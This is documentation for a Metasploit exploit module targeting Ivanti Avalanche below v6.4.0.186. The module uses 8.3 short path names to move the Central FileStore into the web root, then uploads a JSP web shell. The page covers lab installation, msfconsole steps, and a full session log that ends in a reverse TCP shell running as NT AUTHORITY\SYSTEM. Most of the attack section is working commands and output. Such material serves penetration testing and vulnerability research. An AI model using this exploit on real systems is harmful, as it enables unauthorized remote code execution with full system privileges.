 ## Vulnerable Application

For versions of Ivanti Avalanche below `v6.4.0.186`, an authenticated administrator
can change the default path for the Central FileStore via the Configuration Settings pane.
While the default path is set to `C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files`,
Ivanti Avalanche restricts the path from being set to folders within the `Windows` and
`Program Files` directories. These restrictions do not account for MS-DOS (8.3) path
names, which can be used to set the Central FileStore path to the web root of the application.
This module leverages this vulnerability to upload a JSP web shell and gain RCE as `NT AUTHORITY\SYSTEM`.

### Installation Instructions

The software requires a version of MSSQL Server to be installed. The installation
instructions use MSSQL Server 2012, but 2017 worked for my setup. Ensure that
`SQL Server and Windows Authentication Mode` is selected as the default for
server authentication. This can either be done at installation or via
SQL Server Management Studio, available from https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms.

1. Open SQL Server Management Studio and connect to the instance
2. Right click on the instance and select `Properties`
3. Click the `Security` page
4. Underneath `Server Authentication`, select `SQL Server and Windows Authentication Mode` and `Ok`.
5. Open SQL Server Configuration Manager -> SQL Server Network Configuration -> Protocols for MSSQLSERVER -> TCP/IP -> Change from Disable to Enabled.
6. SQL Server Configuration Manager -> SQL Server Services -> Stop all Services -> Start just the SQL Server (MSSQLSERVER) service.
7. Go back to SQL Server Management Studio.
8. Security -> Logins -> sa -> Right click -> Select Properties -> Status -> Toggle Login to Enabled -> Ok
9. Execute the following SQL statement in SQL Server Management Studio: `ALTER LOGIN sa WITH PASSWORD = 'theSAUser123';`
10. You should now be able to run the installer and set the hostname to `127.0.0.1`, set the username to `sa`, and the password to `theSAUser123`.
11. Hitting the next button and accept the rest of the defaults.
12. When it comes to setting up the TomCat connectors, be sure to enable the HTTP and HTTPS services and adjust the ports if there are any port conflicts.
13. You should now have a complete install available.

In case the above doesn't work, instructions for installing Ivanti Avalanche can be found [here](https://forums.ivanti.com/s/article/Best-Known-Method-for-installing-Avalanche-6-x-using-MSSQL-Server-2008-R2-Express-DB-or-2012-Express-Advanced?language=en_US)

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload`
4. Do: `set USERNAME <uname>`
5. Do: `set PASSWORD <pass>`
6. Do: `set RHOST <ip>`
7. Do: `run`
8. You should get a shell as `NT AUTHORITY\SYSTEM`.

## Options

### USERNAME

An admin user with which to log into the software

### PASSWORD

Password belonging to admin user

## Scenarios

### Ivanti Avalanche v6.3.4.153 - Windows 10 x64

```
msf > use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set rhost 192.168.140.150
rhost => 192.168.140.150
msf exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > options

Module options (exploit/windows/http/ivanti_avalanche_filestoreconfig_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to log in with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.140.150  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                         /using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /AvalancheWeb    yes       The URI of the Example Application
   USERNAME   amcadmin         yes       User name to log in with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.140.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Original FileStore config path: 'C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files'
[*] Changing FileStore config path to 'C:\PROGRA~1\Wavelink\AVALAN~1\Web'
[+] Successfully uploaded 'LWRrxDXWxhbz.jsp'
[*] Attempting to restore config path
[!] Tried to delete webapps/LWRrxDXWxhbz.jsp, unknown result
[*] Command shell session 1 opened (192.168.140.1:4444 -> 192.168.140.150:50249) at 2023-05-08 14:27:58 -0500
[!] Failed to restore the FileStore config path to its original path. Please manually restore FileStore config via Tools -> Central FileStore -> Configurations.


Shell Banner:
Microsoft Windows [Version 10.0.19041.630]
-----


C:\Program Files\Wavelink\Avalanche\Web>whoami
whoami
nt authority\system

C:\Program Files\Wavelink\Avalanche\Web>
```
